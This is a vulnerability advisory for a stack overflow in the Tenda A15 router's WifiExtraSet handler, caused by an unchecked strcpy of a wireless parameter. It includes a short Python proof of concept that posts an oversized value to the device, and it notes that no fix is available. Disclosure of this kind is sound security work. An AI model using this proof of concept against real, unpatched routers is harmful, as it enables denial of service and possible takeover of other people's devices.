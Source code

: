 ## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24

![1703732437002](image/WifExtraSet.zh-cn/1703732437002.png)

In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.

![1703732509167](image/WifExtraSet.zh-cn/1703732509167.png)

## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
  
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443583/video_to_markdown/images/youtube---j6ZD_bxYnw-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/-j6ZD_bxYnw "")
## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
